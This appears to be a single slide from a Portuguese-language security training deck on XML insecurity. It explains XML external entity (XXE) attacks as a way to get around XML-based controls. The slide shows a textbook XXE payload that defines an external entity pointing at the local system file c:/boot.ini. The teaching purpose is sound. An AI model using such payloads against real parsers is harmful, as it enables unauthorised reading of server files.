

# XML INSECURITY - 1
XML ENTITY ATTACK:

Evasão de controles que se baseiam em XML. Ex.:
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY>
   <!ENTITY xxe SYSTEM "file://c:/boot.ini">
]>
<foo>&xxe;</foo>